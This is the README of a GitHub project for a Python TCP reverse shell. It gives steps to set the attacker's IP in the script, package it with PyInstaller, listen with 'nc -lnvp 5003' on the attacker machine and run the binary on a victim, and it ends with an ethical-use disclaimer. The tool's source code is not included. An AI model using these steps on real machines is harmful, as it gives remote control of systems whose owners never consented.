 ![version](https://img.shields.io/badge/Version-1.0.7-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/Keyj33k/ReverseShell?style=social) ![forks](https://img.shields.io/github/forks/Keyj33k/ReverseShell?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/Keyj33k/ReverseShell?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/Keyj33k/ReverseShell?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 

# Reverse Shell :snake:
- A python3 tcp reverse shell.

### Bash Remote Access Made Easy

---

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

### :question: How to use this reverseshell? 

---

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called >> reverseshell.py:

### :wrench: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- 3 ) This Reverse Shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### :sparkles: If the steps above are done:

---

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
### :gem: Explained:

---

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
  
- Tested on 5.18.0-kali3-amd64, 5.15.0-41-generic-Ubuntu
  
---


